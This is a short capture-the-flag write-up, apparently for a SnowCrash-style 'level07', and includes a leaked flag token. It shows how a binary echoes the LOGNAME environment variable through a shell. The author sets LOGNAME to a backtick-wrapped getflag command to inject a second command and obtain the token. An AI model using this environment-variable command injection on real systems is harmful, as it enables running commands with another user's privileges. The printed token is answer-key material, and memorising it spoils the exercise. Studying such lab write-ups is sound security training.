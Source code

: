 # level07 solve

Firstly, at all, when we get logged and trying to see if we got the file we can see we have one file ` level07 `

```
$ ls
> level07
```

That's similar operation as level03. It looks like a binary file so we decide to run it.

```
$ ./level07
> level07
```

We decide to see inside the file.

```
$ cat ./level07
```

And we see some multiple line interesting. But the most curious line was `LOGNAME/bin/echo %s `

```
▒▒[▒LOGNAME/bin/echo %s
```

After some reflexion, we decide to try to see if `LOGNAME` is in machine environment.

```
$ env
> ...
> HOME=/home/user/level08
> SHLVL=4
> LOGNAME=level08
> ...
```

And it is the case, so we decide to redirect LOGNAME on getflag, because we suppose that the executable use a ` execve ` like for execute LOGNAME with the bin ` echo ` . We add ``` \` ``` for print the result of the command.

```
$ export LOGNAME=\`getflag\`
```

Trying again and...

```
$ ./level07
> Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

We got it!

> <a href="../flag">flag</a> - <a href="../../level06">previous level</a> - <a href="../../level08">next level</a>
